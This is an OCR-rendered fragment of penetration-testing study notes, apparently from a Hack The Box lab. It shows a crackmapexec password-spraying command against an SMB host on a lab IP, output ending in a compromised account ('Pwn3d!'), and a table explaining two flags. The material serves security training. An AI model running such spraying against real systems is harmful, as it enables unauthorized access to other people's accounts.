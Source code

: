 ### Brute Force & Password Spraying attack
```bash
buduboti@htb[/htb]$ crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth

SMB         10.10.110.17 445    WIN7BOX  [*] Windows 10.0 Build 18362 (name:WIN7BOX) (domain:WIN7BOX) (signing:False) (SMBv1:False)
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\Administrator:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\jrodriguez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\admin:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\eperez:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\amone:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\fsmith:Company01! STATUS_LOGON_FAILURE 
SMB         10.10.110.17 445    WIN7BOX  [-] WIN7BOX\tcrash:Company01! STATUS_LOGON_FAILURE 

<SNIP>

SMB         10.10.110.17 445    WIN7BOX  [+] WIN7BOX\jurena:Company01! (Pwn3d!) 
```

| Flag                    | Description                            |
| ----------------------- | -------------------------------------- |
| `--continue-on-success` | to don't stop at the first found creds |
| `--local-auth`          | to non-domain joined computers         |